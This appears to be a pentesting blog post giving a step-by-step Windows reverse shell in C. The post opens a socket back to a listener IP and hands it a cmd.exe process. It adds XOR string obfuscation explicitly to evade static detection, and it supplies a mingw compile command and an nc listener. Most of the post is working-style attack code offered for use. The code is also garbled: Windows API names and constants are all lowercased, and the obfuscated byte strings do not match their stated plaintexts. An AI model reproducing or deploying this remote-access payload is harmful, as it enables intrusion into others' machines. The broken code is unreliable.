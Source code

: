 ```yaml
---
layout: post
category: pentesting
---
```


hello, fellow pentesters! today we’ll dive into creating a reverse shell exploit in c for windows. this post will walk you through the steps from setting up a socket connection, using basic obfuscation techniques, and compiling the exploit for x64 systems. this type of exploit could be used in a capture the flag (ctf) competition.

# overview

the objective is to create a reverse shell that connects to a remote server (linux) from a windows client. we’ll utilize windows api functions to set up the socket and initiate the reverse shell.

# steps to build the reverse shell in c

## 1. setting up winsock and creating the socket

first, we initialize winsock, a windows api that provides access to network protocols. this setup allows us to create a socket and prepare it for connection.

```c
#include <winsock2.h>
#include <windows.h>
#pragma comment(lib, "ws2_32.lib")

int main() {
    socket shell;
    struct sockaddr_in shell_addr;
    wsadata wsa;
    char ip_addr[] = "192.168.37.134"; // target ip
    int port = 443;

    // initialize winsock
    if (wsastartup(makeword(2, 2), &wsa) != 0) {
        printf("[!] winsock initialization failed.\n");
        return 1;
    }

    // create the socket
    shell = wsasocket(af_inet, sock_stream, ipproto_tcp, NULL, 0, 0);
    shell_addr.sin_family = af_inet;
    shell_addr.sin_port = htons(port);
    shell_addr.sin_addr.s_addr = inet_addr(ip_addr);
    
    // connect to the server
    if (wsaconnect(shell, (sockaddr*)&shell_addr, sizeof(shell_addr), NULL, NULL, NULL, NULL) == socket_error) {
        printf("[!] connection failed. try again.\n");
        closesocket(shell);
        wsacleanup();
        return 1;
    }
}
```

## 2. adding xor obfuscation

to evade detection, we apply xor obfuscation to the ip and command strings. this approach will make it more difficult for static analysis tools to detect the ip and command directly in the binary.

```c
void xor_decrypt(char *data, size_t len, char key) {
    for (size_t i = 0; i < len; i++) {
        data[i] ^= key;
    }
}

char ip_addr_encrypted[] = "\x6a\x6e\x6f\x61\x72\x39\x37\x4e"; // xor encrypted ip
char cmd_encrypted[] = "\x3e\x2d\x2b\x3e\x21\x2c\x3b\x2e"; // xor encrypted "cmd.exe"
char key = 0xaa;

xor_decrypt(ip_addr_encrypted, strlen(ip_addr_encrypted), key);
xor_decrypt(cmd_encrypted, strlen(cmd_encrypted), key);
```

## 3. running `cmd.exe` over the socket

once connected, we redirect the socket as the standard input/output for a new `cmd.exe` process, effectively creating the reverse shell.

```c
startupinfo si;
process_information pi;
memset(&si, 0, sizeof(si));
si.cb = sizeof(si);
si.dwflags = startf_usestdhandles;
si.hstdinput = si.hstdout = si.hstderr = (handle)shell;

createprocessa(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
waitforsingleobject(pi.hprocess, infinite);
closehandle(pi.hprocess);
closehandle(pi.hthread);
```

## 4. compiling the code for x64

to compile this code for x64 architecture, use the following command with mingw:

```bash
x86_64-w64-mingw32-gcc -o shell_x64.exe shell.c -lws2_32 -static
```

this command will compile a 64-bit binary that includes all necessary libraries statically.

# final code

here’s the complete reverse shell code in c:

```c
#define _winsock_deprecated_no_warnings
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#pragma comment(lib, "ws2_32.lib")

void xor_decrypt(char *data, size_t len, char key) {
    for (size_t i = 0; i < len; i++) {
        data[i] ^= key;
    }
}

int main() {
    socket shell;
    struct sockaddr_in shell_addr;
    wsadata wsa;
    startupinfo si;
    process_information pi;
    char recvserver[512];
    int connection;
    char ip_addr[] = "\x6a\x6e\x6f\x61\x72\x39\x37\x4e"; // encrypted ip (192.168.37.134)
    char cmd[] = "\x3e\x2d\x2b\x3e\x21\x2c\x3b\x2e"; // encrypted "cmd.exe"
    int port = 443;
    char key = 0xaa;

    xor_decrypt(ip_addr, strlen(ip_addr), key);
    xor_decrypt(cmd, strlen(cmd), key);

    if (wsastartup(makeword(2, 2), &wsa) != 0) {
        printf("[!] winsock initialization failed.\n");
        return 1;
    }

    shell = wsasocket(af_inet, sock_stream, ipproto_tcp, NULL, 0, 0);
    shell_addr.sin_family = af_inet;
    shell_addr.sin_port = htons(port);
    shell_addr.sin_addr.s_addr = inet_addr(ip_addr);

    connection = wsaconnect(shell, (sockaddr*)&shell_addr, sizeof(shell_addr), NULL, NULL, NULL, NULL);

    if (connection == socket_error) {
        printf("[!] connection failed. try again.\n");
        closesocket(shell);
        wsacleanup();
        return 1;
    }

    recv(shell, recvserver, sizeof(recvserver), 0);
    memset(&si, 0, sizeof(si));
    si.cb = sizeof(si);
    si.dwflags = (startf_usestdhandles | startf_useshowwindow);
    si.hstdinput = si.hstdout = si.hstderr = (handle)shell;

    createprocessa(NULL, cmd, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
    waitforsingleobject(pi.hprocess, infinite);
    closehandle(pi.hprocess);
    closehandle(pi.hthread);

    closesocket(shell);
    wsacleanup();
    return 0;
}
```
# testing the reverse shell

to test the reverse shell, set up a listener on your linux machine with `nc`:

```bash
nc -lvnp 443
```

then execute the compiled `shell_x64.exe` on the windows machine. if successful, you’ll get a shell back on your listener.
